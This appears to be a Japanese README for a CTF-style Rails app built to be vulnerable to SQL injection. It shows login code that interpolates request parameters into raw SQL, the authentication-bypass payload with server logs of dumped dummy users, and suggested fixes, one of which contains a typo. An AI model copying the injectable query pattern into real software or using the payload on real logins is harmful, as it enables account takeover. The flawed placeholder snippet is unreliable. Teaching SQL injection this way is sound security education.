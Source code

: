 # Ruby On Rails SQLi 

Railsを用いてSQLiに脆弱なサンプルアプリを作ってみました。

CTF形式となっておりますので、ローカルで本アプリを立ち上げてFLAGを獲得してください。

## 実行方法

```
$ docker-compose up
```

以下のように``` localhost:3000/ror/index ```が立ち上がればオッケーです。

![起動画面](./sample.png)

以下答えになります。

## TL;DR

```
' OR 1 LIMIT 1; -- '
```

## Railsとは？

MVCアーキテクチャに基づいて設計されたWebアプリケーションフレームワーク

ControllerにあたるAction Controller、
ViewにあたるAction View、
ModelにあたるActive Recordが担当

Railsの理念

- 設定より規約（Convention over configuration; CoC）
- DRY（Don't Repeat Yourself）
- REST（Representational State Transfer）

## Railsの仕組み

Railsアプリに対してアクセスが来たとき、RailsはどのURIにどのHTTPメソッドが来たかを判別し、[routes.rb](./config/routes.rb)を参照しながら適切なコントローラーを呼び出します。

```
  get 'ror/index'
```

とあるので、[ror_controller.rb](./app/controllers/ror_controller.rb)のindex関数によって処理されることが定義されています。

さて、index関数は何も書いていない空の関数です。

この場合、アプリは[index.html.erb](./app/views/index.html.erb)の中身をすぐに用意します。

このerbファイルからHTMLが作成され、ユーザーに表示されるという仕組みなっております。

index.html.erbを眺めてみましょう。

```
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <h1>Login</h1>
    <%= form_tag("/ror/login", method: "post") do %>
        <%= label_tag(:nickname, "Nickname:") %>
        <%= text_field_tag(:nickname) %>
        <br>
        <%= label_tag(:password, "Password:") %>
        <%= text_field_tag(:password) %>
        <%= submit_tag("Submit") %>
      <% end %>

    <p>Time: <%= Time.current %></p>
  </body>
</html>
```

ユーザの入力を受け付けるRailsのAction Viewのフォームヘルパー```form_tag```、```label_tag```などがあります。

さて、上記コードによって```/ror/login```というURIにニックネームとパスワードの情報がpostされますが、routingを確認してみるとは[ror_controller.rb](./app/controllers/ror_controller.rb)のlogin関数によって処理されることが定義されています。

login関数は以下のようになっております。

```
  def login

    con = ActiveRecord::Base.connection
    result = con.select_all("SELECT * FROM users WHERE nickname = '#{params[:nickname]}' AND password = '#{params[:password]}'")

    if result.to_a.size == 1
      render plain: 'FLAG{dummy_flag}'
      return
    end

    render plain: 'Login Failed'
  end
```

生SQLを発行していることが分かります。

SQLはニックネームとパスワードが一致するユーザーをSELECTしているようです。

ログインの成功条件としては、SQLの結果が1件取れた場合にログイン成功となりFLAGを返しているようです。

## 解法

NicknameかPasswordに

```
' OR 1 LIMIT 1; -- '
```

を入力するとログインを突破し、Flagを手に入れることができます。

ちなみに、

```
' OR 1; -- '
```

だと、```Login Failed```となってしまうが、これはもちろん、result.to_a.sizeが3になってしまうからである。

このときのWeb側のログを見ると、

```
(1.3ms)  SELECT * FROM users WHERE nickname = '' OR 1; -- '' AND password = '1'
web_1  |   ↳ app/controllers/ror_controller.rb:10:in `login'
web_1  | {"id"=>"08d9a2ad-dab1-44eb-9728-db8019921c1d", "nickname"=>"ゼニガメ", "email"=>"zenigame@pokemon.ac.jp", "password"=>"Mjs0Bmiv2", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"83aee8fd-11b4-4298-9c4b-0f5483b3115f", "nickname"=>"ヒトカゲ", "email"=>"hitokage@pokemon.ac.jp", "password"=>"FgkmcSFk2i", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"e8077e6c-0d14-466c-8300-6b7975b95442", "nickname"=>"フシギダネ", "email"=>"fushigidane@pokemon.ac.jp", "password"=>"m3bChIrNov", "age"=>5, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
```

となるため、SQL文は正しく発行されていることが分かります。

ログイン条件を正にするためには、検索結果を一件のみに絞らせる必要があります。

## 対策方法

発行するSQLの中に変数が入ってくる場合、プレースホルダで書くことが望ましいです。

問題となったSQLはプレースホルダで書くと

```
result = con.select_all("SELECT * FROM users WHERE nickname = ? AND password = ?", "#{params[:nickname]}", "#{params{:password}}")
```

となります。

RailsにはActiveRecordという強力なO/Rマッパーが用意されているので、それを使いましょう。

今回の場合だと、where句を用いることができます。

```
result = User.where(nickname: params[:nickname], password: params[:password])
```

さて、Railsdではログイン機能を作る際はdeviseというGemを利用するのが一般的です。

Gemとは、Rubyで書かれたプログラムをパッケージ化したもので、通常Bundlerを用いてGemを管理します。（Pythonでいうところのpipのようなものです。）

deviseを用いることで、会員登録・ログイン・パスワード変更機能なども容易に作成でき、セッションの確保・破棄、サインイン回数やサインイン時間やIPアドレスなども記録できます。

## データベースの中身を見てみたい方へ（Rails初学者向け）

Railsでは、rails consoleという便利なツールを使ってデータベースの中身を確認できます。

今回の問題では、以下のように```rails c```で立ち上げて、```User.all```と打つだけです。

```
$ docker exec -it ror_sqlis_web_1 bash
root@9f42995292fd:/myapp# rails c
Running via Spring preloader in process 65
Loading development environment (Rails 6.1.0)
irb(main):001:0> User.all
  User Load (0.6ms)  SELECT `users`.* FROM `users` /* loading for inspect */ LIMIT 11
=> #<ActiveRecord::Relation [#<User id: "02183cc7-3183-41eb-9f2b-81f5f8a2eb20", nickname: "ゼニガメ", email: "zenigame@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.643294000 +0000", updated_at: "2021-01-12 02:42:59.643294000 +0000">, #<User id: "13663518-f302-4dd2-beb4-366750dde71a", nickname: "フシギダネ", email: "fushigidane@pokemon.ac.jp", password: [FILTERED], age: 5, created_at: "2021-01-12 02:42:59.626354000 +0000", updated_at: "2021-01-12 02:42:59.626354000 +0000">, #<User id: "f4091449-caef-4502-96fe-55d90600d734", nickname: "ヒトカゲ", email: "hitokage@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.636228000 +0000", updated_at: "2021-01-12 02:42:59.636228000 +0000">]>>
```



